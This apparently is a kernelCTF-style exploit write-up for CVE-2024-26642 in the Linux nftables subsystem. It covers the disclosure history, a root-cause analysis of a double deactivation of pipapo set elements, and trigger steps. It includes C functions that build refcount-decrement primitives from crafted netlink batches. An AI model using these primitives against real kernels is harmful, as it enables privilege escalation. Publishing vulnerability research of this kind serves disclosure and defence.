 # Exploit detail about CVE-2024-26642
If you want to get some base information about CVE-2023-6817, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Some additional stories
After reading `vulnerability.md` or `cause analysis`, you may wonder why the root cause and patch do not seem to match. I can only talk about the vulnerability reporting process for this question.
I sent a vulnerability report to security@kernel.org at 2024.2.29 13:33: 
``` 
Hi, I've found a new vulnerability in Linux netfilter/nftable subsystem. In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step: 
1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS. 
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION. 
3. Create a chain. 
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1. 
5. Delete the chain And finally nft_setelem_data_deactivate will be called for the same set element both in nft_map_deactivate and in function pipapo_gc.

Attachment is the poc I wrote for this vulnerability, which leaks some kernel pointers. I tested it on linux 6.1.78.

Thanks,
lonial con
```
The email also attached a poc I wrote based on the trigger idea (it can cause the latest kernel at that time to produce crahs). I did not receive any reply emails afterwards.
On 2024.3.5, I noticed that the maintainer of netfilter pushed a patch to netfilter (https://patchwork.ozlabs.org/project/netfilter-devel/patch/20240301022605.146412-1-pablo@netfilter.org/). He pushed the corresponding patch without asking for any opinion from me.

The patch did make my poc not work, but this patch did not fix the core of the problem `set->dead = 1`. Therefore, I added two patch commits to `vulnerability.md`.

## Cause anaylysis

In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step:

1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
3. Create a chain.
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
5. Delete the chain

After you send these commands in a message list, when you reach step 5 `delete the chain`, the following call chain will occur:
```
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> case NFT_TRANS_PREPARE: nft_map_deactivate
```
`nft_map_deactivate` will eventually call `nft_setelem_data_deactivate` for all set elements in the set.

But at the same time, after all commands are executed, nftable will also call `nf_tables_commit`, which triggers another call chain:

```
nf_tables_commit -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```

Finally, `nft_setelem_data_deactivate` will be called for elements which are timed out in the pipapo set, which may result in multiple calls to `nft_setelem_data_deactivate` for the same set element.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
- Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
- Create a chain.
- Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
- Delete the chain 


## Exploit it
The method of exploiting CVE-2024-26642 is exactly the same as that of exploiting CVE-2023-6817. If you want to learn how I exploit CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).The only difference is how to construct the two primitives.

## Primitive
### Primitive_0
I build a function named as `primitive_0` to change the nft_object->use by triggering the vulnerabiltiy:

```c
//make target_obj->use = target_obj->use - repeat_time
void primitive_0(struct nl_sock *socket, char *table, char *target_obj, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *key = malloc(0x40);
    char *set_name = "set for primitive0";
    char *chain_name = "chain for primitive0";
    msg_list[0] = new_set_pipapo_for_timeout_with_anonymous_msg(table, set_name, NFT_OBJECT_CT_EXPECT);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_expiration_msg(table, set_name, pad, 0xc0, target_obj, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 0);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```

How it works:
1. message 0: Create a pipapo set with flags `NFT_SET_TIMEOUT` and `NFT_SET_ANONYMOUS`
2. message from 1 to (repeat_time): Create repeat_time set elements, all of which contain `NFTA_SET_ELEM_EXPIRATION` and `NFTA_SET_ELEM_TIMEOUT`.
3. message repeat_time+1: Create a chain
4. message repeat_time+2: Create a rule on the chain, which contains an expr of type `lookup`. `lookup` expr can be bound to an `nft_set` when initialized, and we let it bind the pipapo set created by message[0].
5. message repeate_time+3: delete the chain created by message repeat_time+1
When the above message is sent, two rounds of calls to `nft_setelem_data_deactivate` for the same set element will be triggered:
    
The first round is when executing message repeate_time+3, and the following call path will be generated in the end:

```c
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> nft_map_deactivate
```

The `nft_map_deactivate` function will call `nft_mapelem_deactivate` -> `nft_setelem_data_deactivate` for all elements in the pipapo set created by message 0.

The second round is after all messages are executed, `netfilter` will call the `nf_tables_commit` function, and finally generate the calling path:
```c
nft_set_commit_update -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```
The function `pipapo_gc` will also call `nft_setelem_data_deactivate` for all timeout elements in pipapo set.
(This is why it is necessary to add `set->dead = 1` in nf_tables_deactivate_set to fix the vulnerability, because after adding this line of code, the subsequent operations will not be executed in the function nft_set_commit_update.)

It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_object->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_object at one time.

### Primitive_1
I build a function named as `primitive_1` to change the nft_chain->use by triggering the vulnerabiltiy:

```c
//make target_chain->use = target_chain->use - repeat_time
void primitive_1(struct nl_sock *socket, char *table, char *target_chain, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *set_name = "set for primitive1";
    char *chain_name = "chain for primitive1";
    char *key = malloc(0x40);
    msg_list[0] = new_set_pipapo_for_timeout_and_chain_with_anonymous_msg(table, set_name, 0x40);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_chain_and_expiration_msg(table, set_name, pad, 0xc0, target_chain, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 1);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```
It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_chain->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_chain at one time.


## Exploit
Because the exploit steps of CVE-2024-26642 is the same as CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).